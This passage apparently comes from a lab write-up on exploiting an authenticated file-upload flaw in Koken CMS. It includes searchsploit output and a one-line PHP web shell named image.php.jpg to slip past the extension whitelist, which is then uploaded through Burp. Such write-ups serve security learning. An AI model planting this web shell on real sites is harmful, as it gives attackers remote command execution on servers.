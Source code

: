 As we can see, it contains a text file with the instructions on how to exploit the vulnerability.

```console
root@kali:~$ searchsploit Koken
-------------------------------------------------------------------------- --------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- --------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)                 | php/webapps/48706.txt
-------------------------------------------------------------------------- --------------------------
```

## Exploitation
### Arbitrary File Upload

The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.

We need to create a malicious PHP file as shown below:

```console
root@kali:~$ echo '<?php system($_GET["cmd"]);?>' > image.php.jpg
```

Then, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.

![](/assets/images/photographer/screenshot-4.png)
